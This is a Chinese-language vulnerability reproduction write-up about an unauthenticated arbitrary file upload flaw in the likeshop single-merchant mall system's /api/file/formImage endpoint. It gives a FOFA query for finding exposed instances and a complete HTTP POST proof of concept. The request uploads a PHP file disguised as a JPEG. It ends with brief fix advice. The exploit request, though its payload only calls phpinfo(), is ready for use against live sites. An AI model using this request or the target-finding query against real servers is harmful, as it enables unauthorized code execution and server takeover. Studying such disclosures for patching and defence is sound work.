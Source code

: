 
# likeshop单商户商城系统 任意文件上传漏洞复现

### 0x01 产品简介

   likeshop单商户标准商城系统适用于B2C、单商户、自营商城场景。完美契合私域流量变现闭环交易使用。 系统拥有丰富的营销玩法，强大的分销能力，支持电子面单和小程序直播等功能。无论运营还是二开都是性价比极高的100%开源商城系统。

### 0x02 漏洞概述

  likeshop单商户标准商城系统/api/file/formImage接口存在任意文件上传漏洞，由于系统对用户上传的文件类型未作任何过滤和限制，未授权的攻击者可以通过此接口上传恶意后门文件获取服务器信息或权限。

### 0x03 复现环境

FOFA：icon\_hash="874152924" && body="/pc/"

![f352cfeb763d4e9ea2712c0bde26ed8c.png](assets/1700701060-4849f1d854805759b0936522152b615f.png)

### 0x04 漏洞复现

PoC

```cobol
POST /api/file/formImage HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

![bc5be63a383f4772a14aa75cc377dde9.png](assets/1700701060-bc738e0487d7ae876b190c16a9bbd5a4.png) 验证

![d1e3310439b74a3ab8914c2ffd5f1703.png](assets/1700701060-2e7b5f2a9024ccd9fcc7d09eeef59757.png)

### 0x05 修复建议 

关闭互联网暴露面，上传模块设置白名单限制或过滤

升级至安全版本
